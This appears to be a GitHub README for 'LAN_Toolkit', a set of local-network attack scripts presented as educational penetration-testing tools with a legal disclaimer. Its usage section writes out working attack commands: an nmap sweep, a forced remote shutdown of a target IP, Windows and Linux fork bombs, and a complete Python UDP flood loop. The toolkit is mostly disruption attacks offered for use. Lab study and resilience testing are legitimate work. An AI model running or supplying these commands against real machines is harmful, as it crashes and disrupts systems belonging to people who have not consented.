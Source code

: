 # LAN_Toolkit
LAN_Toolkit is a set of scripts ethical penetration testing purposes, specifically tailored to analyze and simulate attacks on machines within a local area network (LAN). These tools are intended for use in controlled environments

🚀 Key Features of LAN_Toolkit:
Network Discovery:

scan_lan.sh: A tool that helps you discover devices connected to your local network. It uses the powerful nmap utility to identify live hosts, their IP addresses, and MAC addresses, as well as some services running on those devices.

Shutdown Target Machine:

shutdown_target.cmd: A Windows-specific script that allows you to forcefully shut down a target machine within the same network. This is achieved using Windows' built-in shutdown command with remote access (\\<target_ip>).

System Freeze (Fork Bomb):

freeze.bat (Windows) and forkbomb.sh (Linux/macOS): These scripts trigger a fork bomb—an infinite loop of processes that causes the system to become unresponsive and effectively freeze. This is an overload attack that consumes all available system resources.

These scripts are powerful, so they should only be run in safe, controlled environments, such as VMs, to prevent any lasting damage.

UDP Flood Attack:

udp_flood.py: A Python script that simulates a UDP flood attack, overwhelming the target machine with an excessive number of UDP packets, potentially causing system slowdown, crash, or network disruptions. This can be useful for testing a machine's resilience to network-based attacks.

User-friendly Documentation:

README.md: A detailed explanation of each tool, how to use them, and a legal disclaimer about responsible use.

commands_reference.txt: This text file offers in-depth explanations of the individual commands and scripts, as well as the proper context for each tool.

⚠️ Legal Disclaimer:
LAN_Toolkit is for educational and ethical penetration testing only. The scripts provided here are meant to simulate attacks in safe, controlled environments, such as virtual labs or personal test systems. Unauthorized use of these tools can lead to legal consequences. You must never use these scripts on a network or system without explicit permission from the owner of the devices.

🌐 Tool Usage Overview:
1. Discover Devices on the LAN:
To identify machines on the same network, you can run the scan_lan.sh script (for Kali Linux/macOS) or use arp -a on Windows. This helps you gather essential information like IP addresses, MAC addresses, and any running services that might be of interest for testing.

Example for Kali/Linux/macOS:

bash
nmap -sn 192.168.1.0/24
2. Shutdown Target Machine:
Once you have identified a machine's IP address, you can remotely shut it down using the shutdown_target.cmd script (Windows only). The script allows you to issue a shutdown command to the target machine, forcing it to power off.

Example for Windows:

cmd
shutdown /s /f /t 0 /m \\192.168.1.5
3. Freeze the System:
Both Windows and Linux/macOS are susceptible to a fork bomb attack, which rapidly consumes system resources, causing the system to become unresponsive. The freeze.bat script works on Windows, while forkbomb.sh works on Linux/macOS.

Example for Windows (Fork Bomb):

bat
%0|%0
Example for Linux/macOS (Fork Bomb):

bash
:(){ :|:& };:
4. UDP Flood Attack:
For a network overload attack, the udp_flood.py script sends a massive number of UDP packets to a target machine, potentially causing it to become slow or crash. This can be useful to test a device’s resilience to high network traffic.

Example for Python UDP Flood:

python
import socket
target = "192.168.1.5"  # IP of the target machine
port = 80               # Port (e.g., HTTP port)
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
data = b"A" * 1024      # Data packet to send
while True:
    sock.sendto(data, (target, port))  # Send the UDP packet
📁 File Structure Overview:
The LAN_Toolkit directory includes the following files:

scan_lan.sh: A bash script for discovering devices in the LAN.

shutdown_target.cmd: A Windows command to shut down a target computer in the network.

freeze.bat: A Windows batch file to execute a fork bomb and freeze the system.

forkbomb.sh: A Linux/macOS script for triggering a fork bomb to freeze the system.

udp_flood.py: A Python script to simulate a UDP flood attack.

README.md: A guide explaining the purpose, usage, and legal notes for each tool.

commands_reference.txt: A reference file with detailed explanations of each command.

🎯 Why Use LAN_Toolkit?
Educational Use: Ideal for learning about network security, penetration testing, and system vulnerabilities in a controlled environment.

Test System Resilience: Helps you assess how well your systems respond to network overloads, shutdown commands, or freeze attacks.

Virtual Lab Setup: Works perfectly for virtualized testing environments (e.g., VMs) to simulate attacks without harming production systems.

